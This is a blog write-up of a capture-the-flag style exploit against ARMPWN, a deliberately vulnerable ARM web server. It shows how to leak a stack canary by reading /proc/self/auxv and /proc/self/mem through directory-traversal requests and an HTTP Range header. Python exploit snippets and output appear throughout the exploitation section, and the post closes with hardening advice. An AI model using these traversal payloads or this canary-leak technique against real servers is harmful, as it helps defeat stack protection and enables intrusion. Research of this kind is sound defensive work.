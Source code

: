 date: 2017-01-24 00:00:00
modified: 2017-01-24 00:00:00
title: ARMPWN redux: canary reloaded
author: hugsy
tags: linux,pwn,arm,ssp,armpwn
header-img: "img/canary-header.png"
category: ctf

>
> __TL;DR__: It is possible to defeat stack canary protection when a binary is vulnerable to
> arbitrary file read.
>

## Intro ##

First of, Happy New Year 2017 ✌

Recently, I've decided to thoroughly investigate the "_Stack Smashing
Protection_" (SSP) on recent Linux and recent Glibc. This research has led to a
blog post available on [elttam R&D blog](https://www.elttam.com.au/blog). Among
many other things, I've found that canaries built with recent glibc may have
their values leaked, should the program be also vulnerable to an arbitrary file
read access, and if it exposes its
[Auxiliary Vector](https://www.elttam.com.au/blog/playing-with-canaries#auxiliary-vector) via
the `procfs` structure.

All the details regarding the following attack on the canary are explained in
this blog post, so I will assume that you are familiar with it. If you're not:

  * the full article is [here](https://www.elttam.com.au/blog/playing-with-canaries){:target="_blank"}
  * the code repository is [there](https://github.com/elttam/canary-fun){:target="_blank"}

In the article, I imagined the attack scenario would apply perfectly well to a
Web or FTP server, and would occur following those steps:

  1. dump `/proc/self/auxv` to get the `AT_RANDOM` location
  2. read `/proc/self/mem` and force an `lseek` access to reach the location found
     above via
     the [HTTP header Range](https://tools.ietf.org/html/rfc7233#page-8){:target="_blank"} (for
     instance `Range: bytes=<0xAT_RANDOM_LOCATION>-<0xAT_RANDOM_LOCATION+16>`)
  3. Truncate the received buffer to `sizeof(register)`
  4. Nullify the last byte (`result &= ~0xff`)

That was the theory, which made perfect sense, but I wanted a practice
case.

Earlier this year, I [had some fun with ARMPWN](/posts/2016/06/13/armpwn-challenge-write-up){:target="_blank"}, a vulnerable web server
created by  <a class="fa fa-twitter" href="https://twitter.com/@5aelo" target="_blank"> @5aelo</a> to practice
exploitation on ARM, so I have decided to use it for a practical, yet very
realistic exploit case.

You can download:

  - [the new websrv.c here](https://gist.github.com/00d74ecac86297efc6772e415f307176){:target="_blank"}
  - [or simply the patch here](https://gist.github.com/c2dbc3e3c11836dcebf53a2189f35976){:target="_blank"}


## Patch analysis

This cheap patch provides to the "new" `websrv` the (pseudo-)capability to
[parse the HTTP Range header](https://gist.github.com/hugsy/00d74ecac86297efc6772e415f307176#file-websrv-c-L181-L201){:target="_blank"}
provided by the client. This is basically how modern Web servers (Apache, nginx)
treat this header.

```c
unsigned long start, end;
char *ptr;
int r;

start = end = 0;
ptr = get_range_header(request, len);
if (ptr){
    if(get_ranges_from_header(ptr, &start, &end)==0){
        if (start && end){
            printf("%s:%d reading range of file '%s' from %u-%u\n", inet_ntoa(client.sin_addr), htons(client.sin_port), file, start, end);
            if (lseek(fileno(f), start, SEEK_SET)==-1){
                perror("lseek() failed:");
[...]
```

In the earlier exploit, we had exploited the Directory Traversal to dump the
process memory mapping (via `/proc/self/maps`) and defeat PIE & ASLR. To crush
SSP protection, we managed to get the canary value by brute-forcing it, which is
very noisy (the canary can be found in max. of 4*256=1024 HTTP requests on a
32-bit architecture, 2048 on 64-bit) and risky (the memory corruption may alert
of an on-going attack).

But now we can actually do much better: we have all the conditions
mentioned earlier to exfiltrate the canary's value, thanks to the ELF Auxiliary
Vector.


## Exploitation

This approach is a lot more stable and stealthier than canary brute-forcing,
since we don't rely on any memory corruption/process crash to determine the
valid bytes of the canary
[as we did before](/2016/06/12/armpwn-challenge#leaking-the-canary){:target="_blank"}.


### Find AT_RANDOM from the Auxiliary Vector

So first, we need to read the process _Auxiliary Vector_ exposed via `procfs`.

```python
s.send("GET ../../../../../proc/self/auxv HTTP/1.0\r\n\r\n")
```

And then parse the result:

```python
AT_RANDOM = 25
[...]
data = s.recv(1024)
for i in range(0, len(data), 8):
    code = struct.unpack("<I", data[i:i+4])[0]
    if code==AT_RANDOM:
        at_random_address = struct.unpack("<I", data[i+4:i+8])[0]
        break
```

If we did things correctly, this will store in the variable `at_random_address`
the address of the 16 random bytes provided by the kernel, used to create the
canary.


### (l)seeking the process memory via the HTTP Range header

Since `procfs` also exposes the process memory, we can use `/proc/<pid>/mem` to
seek to the address we've found at the step above.

```python
m = "GET ../../../../../proc/self/mem HTTP/1.0\r\n"
m+= "Range: bytes={:d}-{:d}\r\n\r\n".format(at_random_address,at_random_address+16)
s.send(m)
```


<div markdown="span" class="alert-warning"><i class="fa fa-info-circle">&nbsp;Warning:</i> `yama/ptrace_scope` must be set to 0 to be able to read the process</div>
memory.


### Fire!

The final exploitation script which combines all the steps described above can
be found [here](https://gist.github.com/hugsy/a462b398721bfb7e6bbd678b6d0e852b).

```
$ python armpwn_leak_canary.py
[+] Connected to 'rpi2-1:80'
[+] Leaking AUVX
[+] AT_RANDOM=0xbe8409c5
[+] Forging HTTP request using Range
[+] Canary is 0xd998d300
```

To be we fetched the correct value for the canary of the remote process, we can use [this script](https://github.com/elttam/canary-fun/blob/master/read_canary_from_pid.py) locally to compare the values for the canary:

![image_alt](https://i.imgur.com/IWpuMIy.png)



## Conclusion

This exploitation shows a different way to leak the canary value, and therefore defeat the SSP protection. As you may have noticed, since this attack does not rely on memory corruption, it is extremely reliable. And it is also much faster: the canary brute-force can take up 4x256 (or resp. 8x256 for 64-bits) requests to determine, where this approach found the same value with only 2 requests.

This illustrates once again the need to maintain a system as hardened as possible, especially on production systems, since restricting `ptrace`, or refusing to expose AUXV like GrSec does, would defeat this attack.

Thanks for reading, and as usual drop me a line on IRC/Twitter/email for any question/comment ☕
